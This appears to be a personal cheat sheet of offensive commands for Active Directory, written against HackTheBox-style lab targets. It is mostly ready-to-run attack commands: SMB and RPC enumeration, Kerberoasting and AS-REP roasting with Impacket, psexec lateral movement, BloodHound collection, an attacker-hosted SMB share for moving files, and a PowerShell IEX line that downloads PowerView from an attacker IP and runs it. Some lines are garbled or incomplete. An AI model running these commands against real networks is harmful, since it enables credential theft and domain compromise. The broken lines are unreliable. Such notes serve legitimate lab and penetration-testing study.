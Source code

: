 # Active Directory

if you have kerberos, dns and ldap, its probably a windows domain controller

## using SMBMAP

```text
smbmap -H 10.10.10.161
smbmap -R  -H 
smbmap -R  -H  -A Groups.xml -q
smbmap -d dom -u usm -p pass -H host
```

## Once we have a valid credential

`GetADUsers.py -all -dc-ip 10.10.10.100 active.htb/svc_tgs:`

`pxexec.py dom/usn:pwd@host`

when yu have a valid credential, you can run

`runas /netonly /user:active.htb\svc_tgs cmd`

on a windows cmdlien, and you'll have access to the remote one

once you run this, you can run bloodhound from your windows boxn from where you have authenticated as the domain user

`.\sharphound.exe -a all -d active.htb --domain-controller 10.10.10.100`

if you're doing sharphound from your windows machine, its worth changing the DNS to the DNS of the domain controller

`GetUserSPNs.py -request -dc-ip 10.10.10.100 active.htb/svc_tgs:` this is called Kerberoasting ^^

General TIP: when you ping, if the TTL is above 128, usually some network infrastructure, if its b/w 64 and 128, its a windows box, if its 64 or below, its a Linux box

crackmapexec getting password policy

`crackmapexec smb 10.10.10.161 --pass-pol`

## Nulll auth

just pass -u '' -p '' everywhere

`GetNPUsers.py -dc-ip 10.10.10.161 htb.local/`

`rpcclient -U '' 10.10.10.161`

once in rpc, enumdomusers, queryusergroups, querygroup , queryuser

## SMB server on linux using impacket

`impacket-smbserver sharename $(pwd) -smb2support -user user -password pass`

now on the windows powershell,

```text
$pass = convertto-securestring 'guest' -asplaintext -force
$cred = new-object system.management.automation.pscredential('guest', $pass)
new-psdrive -name kalidrive -psprovider filesystem -credential $cred -root \\10.10.14.77\kalishare
```

X:\" "&gt;

```text
net use x: \\10.10.14.77\kalishare /user:guest guest
cmd /c "copy  X:\"
```

## Powerview

IEX\(new-object net.webclient\).downloadstring\('[http://$IP/PowerView.ps1'\](http://$IP/PowerView.ps1'\)\) =&gt; this directly import powerview into source

## LDAPSEARCH

ldapsearch

## Group Managed Service Accounts - gMSA

can be used on multiple hosts, scheduled tasks

`gMSAs enable automatic password management across multiple computers using Kerberos KDC`


